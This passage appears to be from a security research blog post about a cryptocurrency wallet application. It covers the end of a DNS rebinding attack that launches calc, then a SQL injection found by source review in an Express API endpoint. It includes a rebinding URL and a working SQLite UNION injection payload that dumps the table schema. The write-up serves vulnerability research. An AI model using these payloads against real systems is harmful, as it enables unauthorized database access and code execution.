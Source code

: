 Now we go to ```http://a.<your_VPS_IP>.1time.127.0.0.1.4time.rebind.network:9334/dnsrebinding.html'``` , wait for a minute until the JS is executed and finally our calc is up.



## SQL Injection


By doing SAST over the server code, it is always interesting to take a look to the code that handles the SQL queries. In this case, we can find it in the /express-api/data/index.js file. Every query seems to be using sanitized input except for the getWalletID() function that passes the "walletId" directly from the URL.

{:refdef: style="text-align: center;"}
![](/blog/images/sqlcode1.png)
{: refdef}


We track down the vulnerable function by doing `grep -rin --exclude-dir=node-modules --exclude-dir=test getWalletById`:

We enter the "express-api/controllers/wallets.ctrl.js" file in which the function is invoked

{:refdef: style="text-align: center;"}
![](/blog/images/changewalletprofile.png)
{: refdef}


And now we make another search to determine in which api call this function is triggered `grep -rin --exclude-dir=node-modules --exclude-dir=test changeWalletProfiile`:

![](/blog/images/changewalletprofile2.png)

Now that we know that this method is being invoked when hitting the '/wallets/:walletId/change-profile' endpoint, we should perform some tests to validate if the 'walletId' URL query is vulnerable to SQL injection, so we head to the *Settings* menu on the client and press on the 'Update profile' button. After intercepting the request and modifying the walletId to a simple SQL injection payload we hit with a DB error:

![](/blog/images/sqlinjection.png)

And after playing for a while we came up with the following payload:

```
http://127.0.0.1:3000/wallets/'UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,%20(SELECT&20sql&20from sqlite_master%20LIMIT%201)--
```

This query will let you see the creation of the firts table (LIMIT 1) and which columns does it have. We can also change the LIMIT to 1,2 to see the second one, and so on.

![](/blog/images/sqlinjection2.png)

Now that we know each of the fields on the 'transactions' table, we will make a subquery to retrieve the first value of each column:

![](/blog/images/sqlinjection3.png)
